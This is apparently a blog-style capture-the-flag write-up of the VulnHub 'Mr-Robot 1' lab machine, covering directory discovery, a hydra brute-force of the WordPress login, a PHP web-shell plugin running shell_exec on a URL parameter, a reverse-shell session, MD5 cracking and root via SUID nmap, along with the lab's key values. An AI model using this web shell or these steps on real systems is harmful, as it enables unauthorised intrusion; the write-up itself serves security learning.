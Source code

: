 ```yaml
---
layout: post
title: Mr-Robot 1
date: 2019-09-15
author: th3-3inst3in
comments: true
categories: vulnhub
tags: [ctf,vulnhub]
---
```


## Mr-Robot 1

> The vulnhub page says we need to find 3 keys so lets get started

Started off with nmap and found 2 open ports

On port 80 I saw the following page I did go through all the options / commands listed but it wasn't anything just videos and pictures.

![main page]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/index.png)



I ran dirsearch and found robots.txt in which I manage to find key 1

`key 1 or 3`

![key1]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/flag1.png)


The other file `fsociety.dic` was actually a word list which I saved it for later use.


Looking at the dirsearcher results found out that the webserver was actually running wordpress. 
I used wpscan didn't find anything usefull and was stuck for a while. 

Then I thought to use the wordlist to try to bruteforce the login. Since I have watched Mr robot the first username that came in my mind was `Mr.robot` I used that as a username but didn't find anything then I use "Elliot" as a username and bruteforced the login with hydra and voila!

Elliot and the password ER28-0652!

Logged in to the dashboard of wordpress


![Dashboard]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/dashboard.png)




from here we can uplaod a simple plugin to get a shell


zip the following php code 

```php
<?php
/*
Plugin Name: Shell
Plugin URI: https://themctfwriteups.com/shells
Description: This hacks you 
Author: th3-3inst3in
Version: 1.0.0
Author URI: https://thectfwriteups.com/
*/

echo shell_exec($_GET['cmd']);
```

upload it and you get a shell using the following link 


http://TARGET_IP/wp-content/plugins/shell.php_/shell.php?e=id


![Shell]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/shell.png)



Then I got a reverse shell

```bash
nc -lvp 1337
listening on [any] 1337 ...
192.168.114.136: inverse host lookup failed: Unknown host
connect to [192.168.114.128] from (UNKNOWN) [192.168.114.136] 58895
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
<ps/wordpress/htdocs/wp-content/plugins/shell.php_$ cd /home
cd /home
daemon@linux:/home$ ls
ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ 



I cracked the password and this is what I got 

user: robot
pass: abcdefghijklmnopqrstuvwxyz


robot@linux:~$ ls  
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

`key 2 of 3`
822c73956184f694993bede3eb39f959 



now moving on to root


Running LinEnum.sh I found the following SUID binaries


![linEnum]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/mrrobot/enum.png)

LinEnum flagged out that nmap also has SUID bit set 

```bash
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-or-3.txt
cat key-3-or-3.txt
cat: key-3-or-3.txt: No such file or directory
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
# 
```

`key 3 or 3`
04787ddef27c3dee1ee161b21670b4e4



